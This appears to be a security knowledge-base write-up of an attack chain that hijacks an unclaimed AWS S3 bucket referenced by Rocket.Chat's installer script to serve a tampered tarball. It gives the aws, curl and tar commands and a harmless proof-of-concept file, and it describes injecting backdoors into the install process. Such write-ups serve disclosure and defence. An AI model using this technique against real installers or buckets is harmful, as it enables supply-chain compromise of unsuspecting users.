

---
tags:
  - rce
  - s3-hijacking
  - supply-chain-compromise
  - aws
  - bucket-claim
type: attack_chain
tools:
  - '[[tools/AWS-CLI]]'
  - '[[tools/curl]]'
  - '[[tools/tar]]'
  - '[[tools/cat]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Linux
  - AWS
submitted: true
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Examine-Install-Script-for-S3-Dependencies]]'
  - '[[procedures/Check-S3-Bucket-Existence-with-AWS-CLI]]'
  - '[[procedures/Claim-and-Populate-S3-Bucket-with-Malicious-Payload]]'
  - '[[procedures/Download-and-Extract-Malicious-Tarball]]'
  - '[[procedures/Demonstrate-Backdoor-Installation-in-Rocket-Chat-Bundle]]'
step_count: 5
techniques:
  - '[[Supply Chain Compromise]]'
  - '[[Remote File Copy]]'
  - '[[Unix Shell]]'
updated_at: '2025-12-14T17:23:42.071Z'
description: >-
  Multi-stage attack exploiting an unclaimed AWS S3 bucket in Rocket.Chat's
  installation script to achieve remote code execution by serving malicious
  payloads during the download and extraction process.
id: 95c2dcf1-e1dd-43bf-b421-f5321481e99f
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[Supply Chain Compromise]]'
  - '[[Remote File Copy]]'
  - '[[Unix Shell]]'
---
# Remote Code Execution via Hijacking Unclaimed S3 Bucket in Rocket.Chat Installer

Multi-stage attack chain demonstrating a complete attack workflow exploiting Rocket.Chat's install.sh script vulnerability.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/AWS-CLI]]
- [[tools/curl]]
- [[tools/tar]]
- [[tools/cat]]

### Target Environment

- Linux OS/Platform
- AWS S3 services
- Network access to AWS and GitHub

### Initial Access Requirements

- AWS account credentials for bucket creation
- Internet access to download Rocket.Chat releases
- No prior access to victim machine needed; exploits during installation

## Detailed Attack Procedures

### Step 1: Examine Install Script
procedure: [[procedures/Examine-Install-Script-for-S3-Dependencies]]

**Objective**: Identify the S3 dependency in the install script to locate the unclaimed bucket.

**Instructions**: Download the latest Rocket.Chat release and inspect the install.sh script using a text editor or grep to find the curl command fetching from the S3 bucket.

**Expected Output**: Line in install.sh: `curl -fSL "https://s3.amazonaws.com/rocketchatbuild/rocket.chat-develop.tgz" -o rocket.chat.tgz`.

**Success Indicators**:
- S3 URL identified
- Bucket name 'rocketchatbuild' noted

### Step 2: Check Bucket Existence
procedure: [[procedures/Check-S3-Bucket-Existence-with-AWS-CLI]]

**Objective**: Verify if the S3 bucket is unclaimed and publicly creatable.

**Instructions**: Use [[commands/aws-s3-list-bucket]] to attempt listing the bucket contents.

```bash
aws s3 ls s3://rocketchatbuild
```

**Expected Output**: Error message: 'An error occurred (NoSuchBucket) when calling the ListObjects operation: The specified bucket does not exist'.

**Success Indicators**:
- NoSuchBucket error confirms unclaimed status
- Bucket available for creation

### Step 3: Claim and Populate Bucket
procedure: [[procedures/Claim-and-Populate-S3-Bucket-with-Malicious-Payload]]

**Objective**: Create the bucket and upload a custom malicious tarball to hijack future downloads.

**Instructions**: Use AWS CLI to create the bucket and upload a tarball with PoC files, such as a directory 'frogs-find-bugs/' containing 'hehehe' file.

**Expected Output**: Bucket created successfully; tarball uploaded to https://s3.amazonaws.com/rocketchatbuild/rocket.chat-develop.tgz.

**Success Indicators**:
- Bucket ownership confirmed
- Malicious payload accessible via S3 URL

### Step 4: Download and Extract Tarball
procedure: [[procedures/Download-and-Extract-Malicious-Tarball]]

**Objective**: Simulate the installer's download and extraction to execute the malicious content.

**Instructions**: Run [[commands/curl-download-rocket-chat-tarball]] to fetch the tarball, then [[commands/tar-extract-rocket-chat]] to extract, and [[commands/cat-poc-file]] to view injected content.

```bash
curl -fSL "https://s3.amazonaws.com/rocketchatbuild/rocket.chat-develop.tgz" -o rocket.chat.tgz
tar -xvzf rocket.chat.tgz
cat frogs-find-bugs/hehehe
```

**Expected Output**: Tarball downloaded (179 bytes in PoC); extraction shows 'frogs-find-bugs/' and 'hehehe'; cat outputs 'EdOverflow :D'.

**Success Indicators**:
- Malicious files extracted
- PoC content accessible

### Step 5: Demonstrate Backdoor Installation
procedure: [[procedures/Demonstrate-Backdoor-Installation-in-Rocket-Chat-Bundle]]

**Objective**: Show how the extracted bundle can be modified for persistent RCE, such as adding backdoors to npm install or pm2 startup.

**Instructions**: Locally modify the extracted Rocket.Chat bundle to inject malicious code, then simulate the installation process including npm install and pm2 ecosystem startup.

**Expected Output**: Backdoor executed during simulated install (e.g., via screenshot of malicious code running).

**Success Indicators**:
- Arbitrary code executed in installation context
- Potential for malware persistence

## Attack Chain Summary

### Key Achievements

1. Identified unclaimed S3 bucket in open-source installer
2. Hijacked bucket to serve malicious payloads
3. Achieved RCE on victim machines running the installer without detection

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Supply Chain Compromise]] Supply Chain Compromise
- [[Remote File Copy]] Ingress Tool Transfer
- [[Unix Shell]] Unix Shell

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution

---

*Last updated: 2023-10-01T00:00:00Z*
